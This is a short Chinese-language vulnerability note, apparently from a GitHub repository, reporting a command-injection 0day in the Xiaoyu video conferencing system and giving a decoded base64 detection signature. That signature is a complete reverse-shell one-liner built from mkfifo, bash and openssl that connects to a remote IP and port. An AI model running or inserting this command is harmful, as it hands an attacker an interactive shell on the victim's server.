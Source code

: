 # 小鱼易连视频会议系统存在0day
漏洞概述
----

小鱼视频会议系统存在命令注入攻击

特征发现：匹配规则base64编码  
解码特征（存在反弹shell）：

    mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect 172.31.0.1:1196 > /tmp/s;rm -f /tmp/s
